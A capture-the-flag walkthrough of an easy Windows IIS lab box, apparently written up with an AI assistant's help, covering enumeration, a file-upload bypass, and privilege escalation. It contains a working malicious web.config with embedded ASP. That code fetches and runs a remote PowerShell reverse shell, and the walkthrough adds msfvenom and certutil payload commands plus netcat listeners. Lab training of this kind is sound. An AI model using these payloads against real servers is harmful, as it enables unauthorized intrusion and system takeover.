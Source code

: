 # 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)

## 🧭 Reconnaissance

### ⚡ Fast Port Scan
```bash
export IP=10.10.10.93
rustscan --ulimit 5000 -a $IP -- -A -sC -oN recon/$IP.scan.rustscan.txt
```

### 📌 Result Summary:
- **Port 80** open (HTTP)
- **Service**: Microsoft IIS 7.5
- **Server OS**: Windows Server 2008 R2

---

## 🌐 [Web Enumeration](HTTP)

### 📁 Directory Enumeration via ShortScan
```bash
shortscan -F http://$IP/
```

### ✅ Discovered Pages:
- `/transfer.aspx` – file upload endpoint
- `/uploadedfiles/` – public directory, potentially for uploaded files

---

## 💣 Exploitation – File Upload Bypass via `web.config`

### 🔍 Goal:
Bypass file extension filtering and achieve **Remote Code Execution** (RCE).

### 🧪 Technique:
1. Used **Burp Intruder** to fuzz file extensions during upload.
2. `.config` was accepted (unexpected but powerful).

### 📝 Malicious `web.config` Payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule"
              scriptProcessor="%windir%\system32\inetsrv\asp.dll" 
              resourceType="Unspecified" requireAccess="Write" preCondition="bitness64"/>
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions><remove fileExtension=".config"/></fileExtensions>
            <hiddenSegments><remove segment="web.config"/></hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Set obj = CreateObject("WScript.Shell")
obj.Exec("cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.72/Invoke-PowerShellTcp.ps1')")
%>
```

---

## 🛰️ Reverse Shell

### 🧪 Using Nishang:
```bash
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.72 -Port 4444" >> Invoke-PowerShellTcp.ps1
updog -p 80  # serve payload
```

### 🧲 Listener (with rlwrap for convenience):
```bash
rlwrap -f . -r nc -nlvp 4444
```

### 🚀 Trigger Shell:
- Upload `web.config` via `/transfer.aspx`
- Visit `/uploadedfiles/web.config` to execute
- ✅ You get a reverse shell as user `merlin`

---

## 🏁 User Flag
```bash
C:\Users\merlin\Desktop> type user.txt
```

---

## 🚀 Privilege Escalation – Juicy Potato

### 📌 Key Privilege:
```bash
whoami /priv
# SeImpersonatePrivilege: Enabled ✅
```

### ⚙️ Transfer Juicy Potato:
```powershell
certutil -urlcache -split -f http://10.10.16.72/JuicyPotato.exe jp.exe
```

### 💣 Generate Reverse Shell (64-bit):
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.72 LPORT=443 -f exe -o reverse.exe
```

### 📥 Transfer payload:
```powershell
certutil -urlcache -split -f http://10.10.16.72/reverse.exe reverse.exe
```

---

## 🎯 Execute PrivEsc
```powershell
.\jp.exe -l 1337 -p reverse.exe -t *
```

Start listener:
```bash
rlwrap -f . -r nc -nlvp 443
```

### ✅ Shell as SYSTEM

---

## 🔐 Root Flag
```cmd
type C:\Users\Administrator\Desktop\root.txt
```

---

## 📚 Lessons Learned

### 🔓 Initial Access:
- Exploited **file upload bypass** using `.config` file
- Abused ASP handler config to execute malicious code

### 📈 Privilege Escalation:
- Leveraged **SeImpersonatePrivilege** with Juicy Potato for SYSTEM access

### 🛡️ Mitigations:
- Harden file uploads: restrict extensions, validate contents, isolate directories
- Restrict SeImpersonatePrivilege to trusted services
- Patch critical systems (this was Windows Server 2008 R2 – unpatched!)

---

## 🎥 [VOD Replay](https://www.twitch.tv/deadpool3020/v/2346652668?sr=a&t=6s)

---

Let me know if you'd like this exported as a `.md` or turned into a downloadable report. Ready for the next target? 🧠💀